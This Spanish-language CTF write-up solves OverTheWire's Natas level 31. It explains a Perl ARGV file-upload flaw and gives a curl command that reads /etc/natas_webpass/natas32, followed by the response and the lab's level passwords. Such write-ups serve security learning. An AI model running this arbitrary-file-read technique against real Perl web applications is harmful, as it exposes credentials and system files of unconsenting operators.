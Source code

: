 # Natas 31

#### URL: http://natas31.natas.labs.overthewire.org/
#### Credenciales: natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y

En Perl hay una vulnerabilidad al subir archivos, y es que el operador <> no acepta cadenas a menos que sea ARGV, en cuyo caso iterará sobre los ARG pasados como argumentos y los insertara en una llamada a open()

En resumen, AFR:

![2025-03-21-153213_1366x768_scrot](https://github.com/user-attachments/assets/c2a47dbd-b87d-480b-b6d9-3baf828aa987)

Solo tenemos que pasar "ARGV" como `el primer valor` con el mismo identificador que el archivo a subir
```
echo "1;2;3;4" > file.csv
curl -u natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y -F file=ARGV -F file=@/home/kalcast/Laboratorio/file.csv submit=Upload http://natas31.natas.labs.overthewire.org/index.pl?/etc/natas_webpass/natas32
curl: (3) URL rejected: Bad hostname
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<!-- Bootstrap -->
<link href="bootstrap-3.3.6-dist/css/bootstrap.min.css" rel="stylesheet">
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas31", "pass": "<censored>" };</script>
<script src="sorttable.js"></script>
</head>
<script src="bootstrap-3.3.6-dist/js/bootstrap.min.js"></script>

<!-- morla/10111 -->
<style>
#content {
    width: 900px;
}
.btn-file {
    position: relative;
    overflow: hidden;
}
.btn-file input[type=file] {
    position: absolute;
    top: 0;
    right: 0;
    min-width: 100%;
    min-height: 100%;
    font-size: 100px;
    text-align: right;
    filter: alpha(opacity=0);
    opacity: 0;
    outline: none;
    background: white;
    cursor: inherit;
    display: block;
}

</style>


<h1>natas31</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B
</th></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

#### Visualizacion de la peticion en Burpsuite

![2025-03-21-154409_1062x361_scrot](https://github.com/user-attachments/assets/0d49df2f-72ff-48f6-87e1-1f3d865d6bae)

`natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B`

PD: The Perl Jam 2 --> https://www.youtube.com/watch?v=BYl3-c2JSL8
